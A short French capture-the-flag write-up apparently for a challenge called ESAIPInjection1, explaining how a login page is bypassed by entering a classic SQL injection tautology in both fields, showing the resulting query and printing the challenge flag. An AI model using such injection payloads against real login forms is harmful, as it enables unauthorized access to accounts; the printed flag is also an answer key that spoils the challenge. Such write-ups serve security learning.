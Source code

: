 # ESAIPInjection1

## Ma solution

On tombe sur cette page de connexion : 

![](../images/1.png)

Le challenge requiert de rentrer du texte dans les deux champs d'entrée, on fait une Blind SQLI de la forme : 

``
" or ""="
``

Dans les deux champs d'entrée de manière à produire une requête de la forme : 

```sql
SELECT * FROM Users WHERE username ="" or ""="" AND password ="" or ""=""
```

A la connexion on obtient alors le flag :  `flag EC2{5ql_L061n_3z_70_Pwn}`
